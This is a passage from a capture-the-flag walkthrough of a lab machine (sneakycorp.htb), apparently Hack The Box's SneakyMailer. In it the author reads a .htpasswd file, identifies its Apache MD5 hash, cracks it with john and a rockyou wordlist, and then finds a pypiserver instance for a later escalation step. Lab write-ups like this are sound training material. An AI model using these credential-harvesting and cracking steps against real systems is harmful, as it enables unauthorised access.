 We already saw 2 references to pypi, now there is a venv folder own by low
and in `/etc/passwd` an account named pypi which has a home folder named
`/var/www/pypi.sneakycorp.htb`.

It seems the EoP will go through venv/pypi.

```
ls -lhA /var/www/pypi.sneakycorp.htb
total 12K
-rw-r--r-- 1 root root       43 May 15 14:29 .htpasswd
drwxrwx--- 2 root pypi-pkg 4.0K Nov  9 12:19 packages
drwxr-xr-x 6 root pypi     4.0K May 14 18:25 venv
```

We can check the hash:

```
cat /var/www/pypi.sneakycorp.htb/.htpasswd
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```

Let's see the kind of hash:

```
$ haiti '$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/'
MD5(APR) [HC: 1600]
Apache MD5 [HC: 1600]
```

```
$ john hash.txt --wordlist=/usr/share/wordlists/passwords/rockyou.txt --format=md5crypt
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
soufianeelhaoui  (pypi)
1g 0:00:00:27 DONE (2020-11-09 21:36) 0.03652g/s 130543p/s 130543c/s 130543C/s souhegan..souderton0
Use the "--show" option to display all of the cracked passwords reliably
Session complete
```

Let's add the new sub-domain to `/etc/hosts`.

```
$ cat /etc/hosts | grep sneak
10.10.10.197 sneakycorp.htb dev.sneakycorp.htb pypi.sneakycorp.htb
```

On port 80 we have the same website as for sneakycorp.htb but on port 8080
we can see an app called pypiserver. (http://pypi.sneakycorp.htb:8080/)

>  Welcome to pypiserver!
>
> This is a PyPI compatible package index serving 0 packages.
>
> To use this server with pip, run the following command:
>
>         pip install --index-url http://pypi.sneakycorp.htb/simple/ PACKAGE [PACKAGE2...]
>
>
> To use this server with easy_install, run the following command:
>
>         easy_install --index-url http://pypi.sneakycorp.htb/simple/ PACKAGE [PACKAGE2...]
>
>
> The complete list of all packages can be found [here](http://pypi.sneakycorp.htb:8080/packages/) or via the [simple](http://pypi.sneakycorp.htb:8080/simple/) index.
>
> This instance is running version 1.3.2 of the [pypiserver](https://pypi.org/project/pypiserver/) software.
